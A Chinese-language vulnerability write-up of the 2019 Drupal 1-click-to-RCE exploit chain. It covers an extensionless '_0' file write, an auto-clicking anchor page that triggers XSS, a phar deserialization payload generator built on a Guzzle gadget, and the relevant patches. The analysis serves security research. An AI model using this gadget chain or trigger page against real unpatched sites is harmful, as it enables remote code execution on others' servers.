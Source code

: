 ```yaml
---
title: Drupal 1-click to RCE分析
date: 2019-04-19 19:13:56
tags:
- phar
- rce
- xss
---
```


2019年4月11日，zdi博客公开了一篇[A SERIES OF UNFORTUNATE IMAGES: DRUPAL 1-CLICK TO RCE EXPLOIT CHAIN DETAILED](https://www.zerodayinitiative.com/blog/2019/4/11/a-series-of-unfortunate-images-drupal-1-click-to-rce-exploit-chain-detailed).

整个漏洞的各个部分没什么特别的，巧妙的是，攻击者使用了3个漏洞+几个小trick，把所有的漏洞链接起来却成了一个还不错的利用链，现在我们就来一起看看整个漏洞.

<!--more-->


# 无后缀文件写入

在Drupal的机制中，设定了这样一条规则。

用户上传的图片文件名将会被保留，如果出现文件名相同的情况，那么文件名后面就会被跟上`_0`,`_1`依次递增。

在Drupal中为了兼容各种编码，在处理上传文件名时，Drupal会对文件名对相应的处理，如果出现值小于`0x20`的字符，那么就会将其转化为`_`。
![image.png-130.8kB][1]

但如果文件名中，如果出现了`\x80`到`\xff`的字符时，PHP就会抛出`PREG_BAD_UTF8_ERROR`，如果发生错误，那么`preg_replace`就会返回NULL，`$basename`就会被置为NULL。

![image.png-25.4kB][2]

当basename为空时，后面的文件内容会被写入到形似`_0`的文件内
![image.png-297.1kB][3]

在这个基础下，原本会被上传到
```
 /sites/default/files/pictures/<YYYY-MM>/
```

则会被写入
```
 /sites/default/files/pictures/<YYYY-MM>/_0
```

**当服务端开启了评论头像上传，或者是拥有作者账号时**

攻击者可以通过上传一张恶意构造的gif图，然后再上传一张带有恶意字符的同一张图，那么就会将恶意图片的内容写入到相应目录的`_0`中

![image.png-214.9kB][4]

但如果我们直接访问这个文件时，该文件可能不会解析，这是因为
1、浏览器首先会根据服务端给出的content-type解析页面，而服务端一般不会给空后缀的文件设置`content-type`，或者设置为`application/octet-stream`
2、其次浏览器会根据文件内容做简单的判断，如果文件的开头为`<html>`，则部分浏览器会将其解析为html
3、部分浏览器还可能会设置默认的content-type，但大部分浏览器会选择不解析该文件。

这时候我们就需要一个很特殊的小trick了，**a标签可以设置打开文件的type(only not for chrome)**

当你访问该页面时，页面会被解析为html并执行相应的代码。
```
<html>
<head>
</head>
  <body>
  <a id='a' href="http://127.0.0.1/drupal-8.6.2/sites/default/files/2019-04/_6" type="text/html">321321</a>

  <script type="text/javascript">
    var a  = document.getElementById('a')
    a.click()
  </script>
  </body>
</html>
```

当被攻击者访问该页面时，我们就可以执行任意的xss，这为后续的利用带来了很大的便利，我们有了一个同源环境下的任意js执行点，让我们继续看。


# phar反序列化RCE

2018年BlackHat大会上的Sam Thomas分享的File Operation Induced Unserialization via the “phar://” Stream Wrapper议题，原文[https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf ](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf )。

在该议题中提到，在PHP中存在一个叫做[Stream API](https://secure.php.net/manual/zh/internals2.ze1.streams.php)，通过注册拓展可以注册相应的伪协议，而phar这个拓展就注册了`phar://`这个stream wrapper。

在我们知道创宇404实验室安全研究员seaii曾经的研究([https://paper.seebug.org/680/](https://paper.seebug.org/680/))中表示，所有的文件函数都支持stream wrapper。

也就是说，如果我们找到可控的文件操作函数，其参数可控为phar文件，那么我们就可以通过反序列化执行js。

在Drupal中，存在file system功能，其中就有一个功能，会把传入的地址做一次`is_dir`的判断，这里就存在这个问题

![image.png-337kB][5]

![image.png-82.8kB][6]

直接使用下面的payload生成文件
```
<?php

namespace GuzzleHttp\Psr7{
    class FnStream{

        public $_fn_close = "phpinfo";

        public function __destruct()
        {
            if (isset($this->_fn_close)) {
                call_user_func($this->_fn_close);
            }
        }
    }
}

namespace{
    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new \GuzzleHttp\Psr7\FnStream();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
}
?>
```
修改后缀为png之后，传图片到服务端，并在`file system`中设置
```
phar://./sites/default/files/2019-04/drupal.png
```

即可触发

![image.png-215kB][7]

# 漏洞要求

这个漏洞在Drual8.6.6的更新中被修复，所以漏洞要求为

- <= Durpal 8.6.6
- 服务端开启评论配图或者攻击者拥有author以上权限的账号
- 被攻击者需要访问攻击者的url

当上面三点同时成立时，这个攻击链就可以被成立

# 漏洞补丁

## 无后缀文件写入 SA-CORE-2019-004

[https://www.drupal.org/SA-CORE-2019-004](https://www.drupal.org/SA-CORE-2019-004)

![image.png-40.6kB][8]

如果出现该错误直接抛出，不继续写入

[https://github.com/drupal/drupal/commit/82307e02cf974d48335e723c93dfe343894e1a61#diff-5c54acb01b2253384cfbebdc696a60e7](https://github.com/drupal/drupal/commit/82307e02cf974d48335e723c93dfe343894e1a61#diff-5c54acb01b2253384cfbebdc696a60e7)

## phar反序列化  SA-CORE-2019-002

[https://www.drupal.org/SA-CORE-2019-002](https://www.drupal.org/SA-CORE-2019-002)


# 写在最后

回顾整个漏洞，不难发现其实整个漏洞都是由很多个不起眼的小漏洞构成的，Drupal的反序列化POP链已经被公开许久，phar漏洞也已经爆出一年，在2019年初，Drupal也更新修复了这个点，而`preg_replace`报错会抛出错误我相信也不是特别特别的特性，把这三个漏洞配合上一个很特别的a标签设置content-type的trick，就成了一个很漂亮的漏洞链。


  [1]: http://static.zybuluo.com/LoRexxar/rkle8o5mqjrbojwjk5tjzx1w/image.png
  [2]: http://static.zybuluo.com/LoRexxar/indn6qfpopamyrayhdcce9la/image.png
  [3]: http://static.zybuluo.com/LoRexxar/s5oij4hcmjf0k2z0e0glftfy/image.png
  [4]: http://static.zybuluo.com/LoRexxar/64be2k19ac5nknfenv5ze9d2/image.png
  [5]: http://static.zybuluo.com/LoRexxar/02tpqziep6h2sq4oerq5nel9/image.png
  [6]: http://static.zybuluo.com/LoRexxar/7bprh31be2igfao2ozo7gkia/image.png
  [7]: http://static.zybuluo.com/LoRexxar/4j71xgb53o74nwfue1fp2y01/image.png
  [8]: http://static.zybuluo.com/LoRexxar/105tpluq69zpoggbzcj879hc/image.png
